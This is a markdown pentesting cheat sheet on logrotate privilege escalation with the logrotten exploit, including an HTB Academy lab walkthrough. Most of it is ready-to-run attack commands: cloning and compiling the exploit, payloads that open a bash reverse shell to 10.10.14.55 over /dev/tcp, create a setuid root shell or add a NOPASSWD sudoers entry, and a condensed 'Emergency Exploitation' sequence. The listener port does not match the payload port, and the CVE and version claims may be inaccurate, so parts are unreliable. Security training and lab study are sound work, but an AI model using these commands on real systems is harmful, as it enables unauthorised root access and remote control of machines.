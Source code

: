 # 📜 Logrotate Exploitation

## 🎯 Overview

Logrotate vulnerability (CVE-2011-1548, CVE-2011-1154) in specific versions allows privilege escalation through log file manipulation and race condition exploitation.

## 🔍 Prerequisites

### Required Conditions
```bash
# 1. Write permissions on log files
ls -la /var/log/ | grep $(whoami)

# 2. Vulnerable logrotate version
logrotate --version
# Vulnerable: 3.8.6, 3.11.0, 3.15.0, 3.18.0

# 3. Logrotate runs as root (via cron)
ps aux | grep logrotate
cat /etc/cron.daily/logrotate
```

### Configuration Analysis
```bash
# Check logrotate configuration
cat /etc/logrotate.conf

# Important settings
grep "create\|compress" /etc/logrotate.conf | grep -v "#"

# Check specific log configurations  
ls /etc/logrotate.d/
cat /etc/logrotate.d/*
```

## 🚀 Exploitation with Logrotten

### Download and Compile Exploit
```bash
# Get logrotten exploit
git clone https://github.com/whotwagner/logrotten.git
cd logrotten

# Compile exploit
gcc logrotten.c -o logrotten
```

### Create Payload
```bash
# Simple reverse shell payload
echo 'bash -i >& /dev/tcp/10.10.14.55/1222 0>&1' > payload

# Alternative payloads
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > payload
echo 'echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > payload
```

### Execute Exploit
```bash
# Setup listener on attacker machine
nc -nlvp 9001

# Run logrotten exploit
./logrotten -p ./payload /tmp/tmp.log

# For create mode (most common)
./logrotten -p ./payload /var/log/dpkg.log

# Wait for logrotate execution (usually daily)
```

### HTB Academy Lab Example
```bash
# 1. Transfer exploit to target
git clone https://github.com/whotwagner/logrotten.git
scp -r logrotten/ htb-student@target:~/

# 2. Compile on target
ssh htb-student@target
cd logrotten/
gcc -o logrotten logrotten.c

# 3. Create payload for flag extraction
echo "cat /root/flag.txt > /home/htb-student/flag.txt" > payload

# 4. Trigger exploit
echo test >> /home/htb-student/backups/access.log
./logrotten /home/htb-student/backups/access.log -p payload

# 5. Read extracted flag
cat /home/htb-student/flag.txt
```

## 🔧 Configuration Mode Detection

### Determine Logrotate Mode
```bash
# Check main config for mode
grep "create\|compress" /etc/logrotate.conf

# Common modes:
# create    - Creates new log file with specified permissions
# compress  - Compresses old log files
```

### Mode-Specific Exploitation
```bash
# For create mode
./logrotten -p ./payload /target/log/file

# For compress mode  
./logrotten -c -p ./payload /target/log/file
```

## 🕐 Timing and Execution

### Cron Schedule Analysis
```bash
# Check when logrotate runs
cat /etc/cron.daily/logrotate
cat /etc/cron.d/ | grep logrotate

# Check last rotation status
cat /var/lib/logrotate.status
```

### Manual Triggering (if possible)
```bash
# Force logrotate execution (requires privileges)
sudo logrotate -f /etc/logrotate.conf

# Debug mode (safe testing)
logrotate -d /etc/logrotate.conf
```

## 🔍 Detection & Enumeration

### Logrotate Vulnerability Check
```bash
#!/bin/bash
echo "=== LOGROTATE VULNERABILITY CHECK ==="

echo "[+] Logrotate version:"
logrotate --version

echo "[+] Vulnerable version check:"
version=$(logrotate --version 2>/dev/null | grep -oE "[0-9]+\.[0-9]+\.[0-9]+")
if echo "$version" | grep -qE "(3\.8\.6|3\.11\.0|3\.15\.0|3\.18\.0)"; then
    echo "  [!] VULNERABLE VERSION: $version"
fi

echo "[+] Writable log files:"
find /var/log -writable 2>/dev/null | head -10

echo "[+] Logrotate configuration:"
grep "create\|compress" /etc/logrotate.conf 2>/dev/null | grep -v "#"

echo "[+] Logrotate cron job:"
ls -la /etc/cron.daily/logrotate 2>/dev/null
```

### Log File Analysis
```bash
# Find writable log files
find /var/log -type f -writable 2>/dev/null

# Check log file permissions
ls -la /var/log/ | grep $(whoami)

# Log rotation status
cat /var/lib/logrotate.status | head -10
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Version vulnerability
logrotate --version | grep -E "(3\.8\.6|3\.11\.0|3\.15\.0|3\.18\.0)"

# Writable logs
find /var/log -writable 2>/dev/null

# Configuration mode
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```

### Emergency Exploitation
```bash
# If vulnerable version + writable logs found
git clone https://github.com/whotwagner/logrotten.git
cd logrotten && gcc logrotten.c -o logrotten
echo 'bash -i >& /dev/tcp/IP/PORT 0>&1' > payload
./logrotten -p ./payload /writable/log/file
```

## ⚠️ Exploit Limitations

### Requirements Summary
- **Vulnerable logrotate version** (specific versions only)
- **Write permissions** on target log files
- **Logrotate execution** as privileged user
- **Timing dependency** on cron schedule

### Success Factors
- **Daily cron execution** - Most common schedule
- **Large log files** - More likely to trigger rotation
- **Active logging** - Files that actually get rotated
- **Correct configuration mode** - create vs compress

---

*Logrotate exploitation leverages race conditions in log management - when logrotate runs as root with writable log files, the logrotten exploit can hijack the rotation process for privilege escalation.* 